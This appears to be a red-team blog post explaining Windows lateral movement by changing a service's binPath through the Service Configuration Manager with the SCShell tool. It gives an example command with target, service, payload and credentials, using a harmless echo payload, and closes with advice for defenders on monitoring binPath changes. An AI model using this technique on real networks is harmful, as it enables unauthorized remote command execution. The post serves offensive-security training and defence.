 ```yaml
---
layout: post
title: "2024-06-18-lateral movement abusing service configuration manager"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-abusing-service-configuration-manager/
---
```


# Lateral Movement via Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different ([Levenshtein](https://www.google.com/search?q=levenshtein+distance\&oq=levensht\&aqs=chrome.1.69i57j0l5.2647j0j7\&sourceid=chrome\&ie=UTF-8)) to the previously known good value and if the service configuration is being changed over the network:

![](<../../.gitbook/assets/image (245).png>)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}
@spotheplanet
